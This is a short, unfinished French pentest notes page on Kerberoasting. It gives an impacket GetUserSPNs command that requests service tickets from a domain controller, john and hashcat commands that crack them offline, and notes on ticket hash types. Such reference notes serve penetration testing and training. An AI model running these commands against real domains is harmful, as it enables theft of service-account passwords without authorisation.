 ```yaml
---
description: A finir
---
```


# Kerberoast

### Récupération des tickets TGS

```
GetUsersSPN.py -request -dc-ip <IP-DC> <domain.local>/<USER> -outputfile impacket_TGS_<IP>.txt
```

### Cassage des hashs obtenus

```
john --format=krb5tgs --wordlist=passwords_kerb.txt hashes.kerberoast
hashcat -m 13100 --force -a 0 hashes.kerberoast passwords_kerb.txt
```

Plusieurs format de hash peuvent être obtenu :

* $17 : AES128
* $18 : AES256 (-m 19700 sur [hashcat](broken-reference), pas pris en compte par [john](broken-reference))
* $23 : RC4-HMAC-MD5 (pris en compte par [john](broken-reference))
